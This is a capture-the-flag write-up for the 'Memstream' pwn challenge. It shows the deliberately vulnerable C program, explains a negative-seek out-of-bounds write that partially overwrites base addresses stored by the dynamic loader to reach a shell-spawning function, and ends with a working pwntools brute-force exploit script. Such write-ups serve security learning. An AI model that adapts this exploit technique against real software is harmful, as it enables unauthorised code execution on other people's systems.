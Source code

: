 Memstream was the second pwn challenge in the event. it was medium difficulty.
Here is the source code:

```c
#include <stdio.h>
#include <stdlib.h>
#define MEM_MAX 0x1000

char g_buf[MEM_MAX];
off_t g_cur;

static void win() {
  system("/bin/sh");
}

size_t getval(const char *msg) {
  size_t val;
  printf("%s", msg);
  if (scanf("%ld%*c", &val) != 1)
    exit(1);
  return val;
}

void do_seek() {
  off_t cur = getval("Position: ");
  if (cur >= MEM_MAX) {
    puts("[-] Invalid offset");
    return;
  }
  g_cur = cur;
  puts("[+] Done");
}

void do_write() {
  int size = getval("Size: ");
  if (g_cur + size > MEM_MAX) {
    puts("[-] Invalid size");
    return;
  }
  printf("Data: ");
  if (fread(g_buf + g_cur, sizeof(char), size, stdin) != size)
    exit(1);
  puts("[+] Done");
}

int main() {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  puts("1. Seek\n2. Read\n3. Write");
  while (1) {
    switch (getval("> ")) {
      case 1: do_seek(); break;
      case 2: puts("You know what you wrote."); break;
      case 3: do_write(); break;
      default: return 0;
    }
  }
}

```

After running `checksec` on the binary, it shows that the binary is packed with UPX:

```
itay@itay-Vortex-G25-8RD:~/Desktop/mystuff/mystuff/blackhat/pwn/second/player$ checksec --file=memstream
[!] Did not find any GOT entries
[*] '/home/itay/Desktop/mystuff/mystuff/blackhat/pwn/second/player/memstream'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Packer:   Packed with UPX
```

We can see that the binary is with `No Relro`, and without stack canary.
Now, let's look for vulnerabilities.
The binary consists of a simple main menu.
We can `seek` , which lets us change an index `g_cur`, in a global array.
We can `write`, which will write to `g_buf[g_cur]`.
The vulnerability is simple. When seeking, it doesn't check if our value is minus. This basically gives us an OOB write primitive.
There is not a `read` option, which hints that our solution should be without any leaks.

*Exploitation*

With my OOB write, I was thinking what can I overwrite.
I saw in GDB, that when running our `memstream` binary, it is not loaded in `0x55***000` as usual, but in `0x7ff****000`, which means it has been `mmaped`.
This means that it is a constant offset from our dynamic libaries (i.e ld). With that in mind, we can overwrite anything we want from there.
One thing I knew, is that `ld` stores the binary base address in its writable segment. Then, when exiting the program, it will jump to the memory inside that address + 0x3d88:
![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/0844b927-c56d-4515-b14a-41320393bb8a)

If rax is `*(0x7ffff7fef2e0)` = `0x7ffff7ff7000`, it will do `call [rax + 0x3d88]`.
So , we can control rax, to be whatever we want, and then it will jump to whats inside that `address + 0x3d88`.
After a quick search, I found out that the `win` function isn't written in any location inside the memory of that binary, so we should write somewhere ourselves. 
As seen in the previous screenshot, there is a second binary base address located in ld.
So, I partially overwrote it, to point to our win function. then , with our second write, I overwrote the second binary base to point to `first_binary_base - 0x3d88`, which will jump to main!
One thing to notice is that when we partially overwrite the base to point to the win function, we'll need to bruteforce one nibble. the offset of the `win` function is `0x1229`, and we can know just the 3 first nibbles of the base.
In my script I overwrote it to be 0x8229:
```py
	offset_base2 = 0x5a28
	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))
```

Then, the same issue occurs when we partially overwrite the second base address, I just guessed `0x5638`:

```py
	offset_base_win = 0x5d80
  seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b") #trigger exit
```

In total, we bruteforced 2 nibbles, and each one has a 1/16 success rate. so we will have `1/16*1/16=1/256` success rate.
Here is my final script, which will be need to run multiple times to succeed:

```py
from pwn import *


def seek(offset):
	p.recvuntil("> ")
	p.sendline("1")
	p.sendline(str(offset))

def write(size, payload):
	print(p.recvuntil("> "))
	p.sendline("3")
	print(p.recvuntil(": "))
	p.sendline(str(size))
	print(p.recvuntil(": "))
	p.send(payload)



while True:
	p = process("./memstream")

	offset_base_win = 0x5d80
	offset_base2 = 0x5a28


	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))

	seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b")

	try:
		p.sendline("ls")
		print(p.recv())
		#p.interactive()
	except:

		p.close()
		continue
	finally:
		p.interactive()
```


